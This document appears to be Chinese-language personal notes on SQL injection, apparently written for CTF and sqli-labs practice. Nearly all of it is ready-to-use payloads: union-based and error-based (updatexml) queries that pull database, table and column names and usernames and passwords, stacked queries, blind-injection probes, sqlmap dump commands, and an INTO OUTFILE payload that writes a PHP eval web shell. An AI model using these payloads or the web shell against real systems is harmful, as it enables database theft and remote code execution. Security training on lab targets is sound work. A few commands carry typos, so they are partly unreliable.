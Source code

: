 # SQL注入

## 联合查询

### 判断注入点

`?id=1'`

`?id=1"`

`?id=1')`

`?id=1' and '1'='2`

测试`'s"\`

### 爆列数

`?id=1' order by 1` 

### 查回显

`?id=-1' union select 1,2,3`

### 爆库名

`?id=-3") union select 1,2,database()`

### 爆表名

`?id=-3") union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()`

### 爆字段名

`?id=-3") union select 1,2,group_concat(column_name)from information_schema.columns where table_name='users'--+`

### 爆数据

`?id=-3") union select 1,2,group_concat(0x5c,username,0x5c,password)from users--+`

`') union select 1,group_concat(schema_name),3 from information_schema.schemata #`

## 报错查询

库名 

`?id=1 and updatexml(1,concat(0x5c,(select database())),1)--+`

表名

`?id=1 and updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=‘sqli’)),1)#`

列名

`?id=1 and updatexml(1,concat(’~’,(select group_concat(column_name) from information_schema.columns where table_name=‘flag’)),1)#`

内容

`?id=1 and updatexml(1,concat(’~’,(select group_concat(flag) from flag)),1)#`

## 修改表名

修改表名（将表明user改为users）：`alter table user rename to users;`

修改列名（将字段名username改为name）：`alter table users change uesrname name varchar(30);`

## show语句

`1';show database --+`

`1';show tables --+`

`1';show columns from 1919810931114514 --+`

## 文件写入

例：sqlilabs-less7

`loadfile`   `intofile`

`id=-1')) union select 1,"<?php @eval($_GET['cmd']); ?>",3 into outfile "D:\\phpStudy\\2.txt" --+`

## 盲注（布尔盲注/时间盲注）

#### 常用函数

**（1）length()**

length()函数主要返回字符串的长度，使用示例：
构造url：…/id =1’ and length(database())>1 --+
这句话的含义是判断当前数据库名称的长度是否大于1，大于1返回true，否则返回false
**（2）substr()和substring()**

substr()和substring()这两个函数功能一样，都是对字符串进行截片，具体用法为substr(字符串，起始位置，片段长度)（注意：起始位置从1开始计数），使用示例：
构造url：…/id =1’ and ascii(substr(database(),1,1))=97 --+
这句话的含义是判断当前数据库名称的第一个字符的ascii码是否等于97等于返回true，否则返回false
**（3）ascii()**

ascii()函数是将字符转换为ascii码，一定程度上可以让我们碰撞字符串名称的编程更容易实现，使用示例参考（2）
**（4）exists()**

exists()函数是判断查询结果是否为空，如果查询结果不为空返回true，查询结果为空返回false
构造url：…/id=1’ and exists(select table_name from information_schema.tables where table_schema=‘security’ limit 0,1)–+
这句话的含义是探查security数据库中是否存在表，以及通过limit语句探查表的数量

#### SQLMAP使用

爆库名

`python3 sqlmap.py -u "网址" -current-db`

爆表名：

`python3 sqlmap.py -u "网址" -D “库名” --tables`

爆列名：

`python3 sqlmap.py -u "网址" -D 库名 -T 表名 --columns`

查看字段：

`python3 sqlmap.py -u "网址" -D 库名 T 表明 -C 列名 --dump`

